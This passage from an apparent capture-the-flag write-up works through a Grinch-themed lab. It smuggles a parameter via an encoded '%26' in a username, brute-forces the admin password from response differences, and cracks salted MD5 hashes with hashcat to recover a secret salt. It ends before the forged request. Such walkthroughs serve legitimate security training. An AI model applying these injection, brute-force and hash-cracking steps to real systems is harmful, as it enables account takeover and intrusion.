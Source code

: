 ```
../api/user?username=grinchadmin%26pass=chron0x Expected HTTP status 200, Received: 400
../api/user?username=grinchadmin%26password=chron0x Expected HTTP status 200, Received: 204
```
With the same procedure as before, we can brute-force the password.
```
../api/user?username=grinchadmin%26password=% Invalid content type detected
../api/user?username=grinchadmin%26password=s% Invalid content type detected
../api/user?username=grinchadmin%26password=s4% Invalid content type detected
../api/user?username=grinchadmin%26password=s4n% Invalid content type detected
../api/user?username=grinchadmin%26password=s4nt% Invalid content type detected
../api/user?username=grinchadmin%26password=s4nt4% Invalid content type detected
../api/user?username=grinchadmin%26password=s4nt4s% Invalid content type detected
../api/user?username=grinchadmin%26password=s4nt4su% Invalid content type detected
../api/user?username=grinchadmin%26password=s4nt4suc% Invalid content type detected
../api/user?username=grinchadmin%26password=s4nt4suck% Invalid content type detected
../api/user?username=grinchadmin%26password=s4nt4sucks% Invalid content type detected
../api/user?username=grinchadmin%26password=s4nt4sucks Invalid content type detected
```
We successfully brute-forced the credentials: `grinchadmin:s4nt4sucks`. To get the flag and to the next challenge, we can use the credentials to log in into the attack-box (`/attack-box`).

# Flag 12 Attack Box: flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}
At this stage, we are logged into the Grinch's attack server. From here we can start a DDOS attack at three of Santas' servers. The objective of this challenge is to reroute this DDOS attack toward the Grinch's server, in other words to localhost. Launching an attack against any of the servers, the following request is send: `/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==`. Decoding the base64 reveals: `{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}`. For all three servers, this results in:
```
{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}
{"target":"203.0.113.53","hash":"2814f9c7311a82f1b822585039f62607"}
{"target":"203.0.113.213","hash":"5aa9b5a497e3918c0e1900b2a2228c38"}
```
The `hash` parameter appears to be an MD5-hash. Tinkering with either the `target` or `hash` parameter results in the response: `Invalid Protection Hash`. This tells us that some sort of validation of the target and hash parameter is performed. Since the target does not directly translate to the hash, we can guess that it is a salted hash. We can try to crack the hash with hashcat. Therefore, we store our information in the form `$pass:$salt` into a file called `hash.txt`:
```
5f2940d65ca4140cc18d0878bc398955:203.0.113.33
2814f9c7311a82f1b822585039f62607:203.0.113.53
5aa9b5a497e3918c0e1900b2a2228c38:203.0.113.213
```
Now we can proceed to try to crack the hashes with 
```
hashcat -m10 -O -o hash.out hash.txt /usr/share/wordlists/rockyou.txt
```
Here `-m10` stands for our selected format, as to how we stored the hashes in our file. After executing this we can view the outputs in the file `hash.out`:
```
5f2940d65ca4140cc18d0878bc398955:203.0.113.33:mrgrinch463
2814f9c7311a82f1b822585039f62607:203.0.113.53:mrgrinch463
5aa9b5a497e3918c0e1900b2a2228c38:203.0.113.213:mrgrinch463
```